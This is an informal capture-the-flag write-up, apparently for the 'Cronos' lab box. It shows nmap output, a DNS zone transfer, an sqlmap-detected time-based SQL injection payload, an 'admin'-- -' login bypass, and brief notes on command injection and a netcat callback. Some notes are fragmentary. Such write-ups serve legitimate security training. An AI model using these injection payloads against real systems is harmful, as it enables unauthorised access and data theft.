



```
nmap -sC -sV 10.129.200.68                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 03:07 EDT
Nmap scan report for 10.129.200.68
Host is up (0.53s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.12 seconds

adding to /etc/hosts gets us awebsite



uses laravel 10.x
 
forge.laravel?

checked for some basic vulnerabilities
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel

not found

$ nslookup    
> server cronos.htb
Default server: cronos.htb
Address: 10.129.200.68#53
> cronos.htb
;; communications error to 10.129.200.68#53: timed out
Server:         cronos.htb
Address:        10.129.200.68#53

Name:   cronos.htb
Address: 10.10.10.13
> 10.129.200.68
;; communications error to 10.129.200.68#53: timed out
68.200.129.10.in-addr.arpa      name = ns1.cronos.htb.

### dns domain transfer

`dig axfr @10.129.200.68 cronos.htb`

```
└─$ dig axfr @10.129.200.68 cronos.htb

; <<>> DiG 9.18.12-1-Debian <<>> axfr @10.129.200.68 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 308 msec
;; SERVER: 10.129.200.68#53(10.129.200.68) (TCP)
;; WHEN: Sun May 28 03:37:42 EDT 2023
```

```

looking at admin url we find that




lets try to use sql map on this

```
POST / HTTP/1.1
Host: admin.cronos.htb
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://admin.cronos.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://admin.cronos.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=k03eq4gj9eoqg770kdeue8bpn1
Connection: close

username=admin&password=admin
```

`sqlmap -r login.req --batch`

```
'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[04:04:39] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 6847 FROM (SELECT(SLEEP(5)))oEZg) AND 'kWak'='kWak&password=admin
---
[04:04:57] [INFO] the back-end DBMS is MySQL

```

we got something from sql map

we can do somethingwith the username
`admin'-- -`



command injection exists

we cann run a nc server
we got a connect back but it went


### Lesson learnt

we can perform nslookup if dns is being provided by the target box. we can also do domain transfer to list all the subdomains.


